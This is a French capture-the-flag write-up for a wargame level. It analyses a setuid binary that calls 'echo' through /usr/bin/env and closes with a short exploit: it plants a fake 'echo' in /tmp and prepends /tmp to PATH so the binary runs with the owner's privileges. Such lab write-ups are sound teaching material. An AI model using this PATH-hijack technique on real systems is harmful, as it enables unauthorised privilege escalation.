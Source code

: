 # Level03

[ENGLISH version](README_EN.md)

## Comment récupérer le flag

J'ai au début pensé que level03 était un dossier.

Un coup de cat dessus, on peut voir qu'il s'agit d'un éxécutable.

De plus, il a des permissions étrange pour un éxécutable:

```
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*
```

Le fichier a un bit Set-User-ID.

Il permet à un utilisateur d'exécuter le programme avec les droits du propriétaire, c'est ainsi que sudo nous permet d'exécuter des commandes en "root".

Il devrait donc nous permettre de l'executer avec les droits de flag03.

Voir cette video pour des expliations + claires: https://www.youtube.com/watch?v=2gHp_CgUets

Une fois lancé, il l'éxécutable affiche seulement 'Exploit me'.

Lancons cutter.

Dans la fonction main, on peut voir ce code:

```
void main(void)
{
    undefined4 uVar1;
    undefined4 uVar2;

    uVar1 = getegid();
    uVar2 = geteuid();
    setresgid(uVar1, uVar1, uVar1);
    setresuid(uVar2, uVar2, uVar2);
    system("/usr/bin/env echo Exploit me");
    return;
}
```

Selon le man:

```
getegid() returns the effective group ID of the calling process.

geteuid() returns the effective user ID of the calling process.

setresuid() sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process.

setresgid() sets the real GID, effective GID, and saved set-group-ID of the calling process (and always modifies the file system GID to be the same as the effective GID)

system() executes a command specified in command by calling /bin/sh -c command, and returns after the command has been completed. During execution of the command, SIGCHLD will be blocked, and SIGINT and SIGQUIT will be ignored.
```

Pendant l'execution, on peut voir que l'uid et le gid valent 2003 (uid et gid de level03)

On peut changer l'uid et le gid de l'executable en utilisant gdb:

voir: https://scc.ustc.edu.cn/zlsc/sugon/intel/debugger/cl/commandref/gdb_mode/cmd_set_variable.htm

Après de nombreux essais infructueux de changer le texte de "/usr/bin/env echo Exploit me", j'ai abandonné cette methode.

En faisant un essai sur mon ordinateur hote, avec le meme code, je me suis apercu que, meme lancé avec les droits de flag03, /usr/bin/env garde les variables d'environnement de level03.

On peut donc faire une redirection de path.

De plus, /tmp est accessible en écriture.

On peut alors exploiter le path !

```
echo "/bin/getflag" > /tmp/echo

chmod +x /tmp/echo

export PATH=/tmp:$PATH

./level03
```

## Le flag

Le flag lu est celui utilisable pour se connecter a level04